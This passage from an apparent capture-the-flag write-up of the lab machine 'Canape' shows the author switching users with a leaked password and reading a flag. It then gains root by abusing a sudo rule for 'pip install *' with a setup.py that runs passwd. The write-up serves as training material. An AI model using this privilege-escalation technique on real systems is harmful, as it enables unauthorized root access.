 ```console
```

I tried with that last password, as it said something about SSH and had no user, so I was curious. And voilà!! I was Homer!

```console
www-data@canape:/tmp$ su homer
su homer
Password: 0B4jyA0xtytZi7esBNGp

homer@canape:/tmp$ cd /home/homer   
cd /home/homer
homer@canape:~$ cat user.txt
cat user.txt
bce918696f293e62b2321703bb27288d
```

## Privilege escalation

Privilege escalation was much more straightforward than getting to user. As always, I check for sudo commands I can run:

```console
homer@canape:~$ sudo -l
sudo -l
[sudo] password for homer: 0B4jyA0xtytZi7esBNGp

Matching Defaults entries for homer on canape:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User homer may run the following commands on canape:
    (root) /usr/bin/pip install *
```

Chara! Way to root found! I just had to google and find this [article](https://github.com/0x00-0x00/FakePip) that explained how to get to root. However, I didn't do it like that. Instead, I decided to do a ``passwd`` and set the root password to 1. The contents of my setup.py were:

```py
import os
os.system('passwd')
```

I executed it and, as it looked as if it had hung, I tried typing in the 1, then again, and output came back! Later I figured out why this had happened: whenever you execute the command you're asked to type the password and then re-type it, so that's why I needed to type it twice.

*Steps to get to root*

![Img](/assets/posts_details/Canape/images/root1.png "Img")
